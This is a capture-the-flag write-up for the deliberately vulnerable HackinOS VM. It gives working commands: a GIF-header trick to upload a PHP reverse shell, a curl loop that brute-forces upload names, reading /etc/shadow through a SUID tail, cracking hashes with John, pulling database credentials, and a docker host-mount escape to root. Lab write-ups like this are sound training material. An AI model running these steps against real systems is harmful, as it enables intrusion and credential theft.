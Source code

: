 # HackinOS: 1

## Recon & Enummeration

Nmap shows us the following:
```
Nmap scan report for 10.10.10.10
Host is up (0.00057s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:c1:5c:20:9a:77:54:f8:a3:41:18:92:1b:1e:e5:35 (RSA)
|   256 df:d4:f2:61:89:61:ac:e0:ee:3b:5d:07:0d:3f:0c:87 (ECDSA)
|_  256 8b:e4:45:ab:af:c8:0e:7e:2a:e4:47:e7:52:f9:bc:71 (ED25519)
8000/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.0.3
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 2 disallowed entries 
|_/upload.php /uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blog &#8211; Just another WordPress site
```

### Port 8000
It's a plain wordpress website. While the Nmap scan is running, we try robots.txt:
```
User-agent:*
Disallow:/upload.php
Disallow:/uploads

```

Also we come across a username: `Handsome_Container`

## Intitial Foothold

The page http://10.10.10.10:8000/upload.php gives us an LFI.
Also, the source code is available via a link in the source code:
https://github.com/fatihhcelik/Vulnerable-Machine---Hint/blob/master/upload.php

We craft a reverse shell php file called `advancedshell.php` and start a listener on port 1234 to catch the reverse shell.

It doesn't work because the file type isn't an actual PNG or GIF file, according to its signature. Thus we modify the file signature as follows:
```
echo "47 49 46 38 37 61" | xxd -r -p - shell.php
```
which contains the file signature of a GIF file.

We bruteforce the upload storage algrithm as follows:
```
for i in $(seq 1 100); do echo -n "shell.php"$i | md5sum | cut -d' ' -f 1| sed -rn 's|(.+)|http://10.10.10.10:8000/uploads/\1.php|p' | parallel 'echo {}; curl -s {}' ;done
```

Then we obtain a shell:

```
www-data@1afdd1f6b82c:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

When we launch a simple Kernel CVE we miss the required binary to exploit:
```
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[-] Could not find pkexec executable at /usr/bin/pkexec
```


### Root@Container
However, after further enumeration on the machine we discover we are within a docker container since the `/.dockerenv` paths and overlays mounted.

Also, we can find a SUID binary GNU tail. Which let's us read the `/etc/shadow` file, containing the root password:

```
www-data@1afdd1f6b82c:/etc/mysql$ tail -n 900  /etc/shadow
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
...
```



Which can be cracked with John, and turns out to be, "john", no kiddding:
```
kali@kali:~/ctf/boxes/vulnhub/hackinos$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
john             (root)
1g 0:00:00:01 DONE (2021-05-30 09:30) 0.5988g/s 4138p/s 4138c/s 4138C/s oblivion..better
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We can access the flag at /root/flag.

Now we have the local docker container root, we aim for the host.

### Hummingbird@Host

We also note a mysql installation on the machine. It isn't available on this container, as it connects to hostname `db` on port 3306 according to `wp-config.php` in the webroot.

When we ping hostname `db` we find out it has IP 172.18.0.3. So we connect to it with the supplied user and password `wordpress:wordpress`


`mysql -h 172.18.0.3 -u wordpress`


And there we go:

```
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
13 rows in set (0.01 sec)

MySQL [wordpress]> select * from host_ssh_cred;
+-------------------+----------------------------------+
| id                | pw                               |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
```

This MD5 hash is easily crackable using John:
```
kali@kali:~/ctf/boxes/vulnhub/hackinos$ john hosthash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (?)
1g 0:00:00:00 DONE (2021-05-30 09:44) 25.00g/s 9600p/s 9600c/s 9600C/s 123456..michael1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

Time to log in to SSH!

```
hummingbirdscyber@vulnvm:~$ id
uid=1000(hummingbirdscyber) gid=1000(hummingbirdscyber) groups=1000(hummingbirdscyber),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker)
```

### Root@Host

For futher escalation we resort to Linpeas once again.

Linpeas shows us 3 running docker containers. 2 we already explored (partially).
```
Running Docker Containers
252fa8cb1646        ubuntu              "/bin/bash"              2 years ago         Up 19 hours                                brave_edison
1afdd1f6b82c        wordpress:latest    "docker-entrypoint.s…"   2 years ago         Up 19 hours         0.0.0.0:8000->80/tcp   experimental_wordpress_1
81a93420fd22        mysql:5.7           "docker-entrypoint.s…"   2 years ago         Up 19 hours         3306/tcp, 33060/tcp    experimental_db_1
```

We also find proFTPD running as root:
```
root      2879  0.0  0.2  13860  2500 ?        S    11:24   0:00  |   |   |   _ proftpd: (accepting connections)
```

which seems to be running in the 3rd docker container:

```
root      1281  0.0  1.2 233972 12056 ?        Sl   11:24   0:00 docker exec brave_edison /etc/init.d/ftp.sh
```


The fact that the we are able to run docker as root means we can run another ubuntu container and mount the host file system to it and read the flag:

```
hummingbirdscyber@vulnvm:~/Desktop$ docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
root@c85d809c841d:/# cd /root
root@c85d809c841d:~# ls
flag
root@c85d809c841d:~# head -n 1 flag 
Congratulations!                    
```

As we mounted the host FS we can also read the `/etc/shadow` file:
```
hummingbirdscyber@vulnvm:~/Desktop$ docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
root@50000283df34:/# head -n 1 /etc/shadow
root:$6$1hmALcmw$RzOKJ7KmhRotfuySmfYZBqUPRl4MalQndhhBg2RCJWsSgqb7/fv4P7zTR0VI/zoAbStq/w51lwnnTgWvgMCNJ1:17955:0:99999:7:::
```



Which hash we can easily crack using John:
```
kali@kali:~/ctf/boxes/vulnhub/hackinos$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt
Warning: only loading hashes of type "sha512crypt", but also saw type "LM"
Use the "--format=LM" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Remaining 1 password hash
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whiterabbit      (root)
```

Which allows us to login with `root:whiterabbit`
```
hummingbirdscyber@vulnvm:~/Desktop$ su 
Password: 
root@vulnvm:/home/hummingbirdscyber/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```